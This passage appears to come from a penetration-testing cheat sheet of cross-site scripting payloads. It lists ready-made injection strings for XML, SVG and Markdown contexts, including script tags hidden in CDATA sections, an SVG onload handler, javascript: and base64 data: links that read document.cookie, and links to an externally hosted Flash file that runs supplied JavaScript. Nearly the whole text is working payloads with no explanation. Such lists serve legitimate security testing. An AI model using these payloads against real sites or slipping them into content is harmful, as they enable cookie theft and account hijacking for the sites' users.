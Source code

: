 ```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in SWF flash application

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```
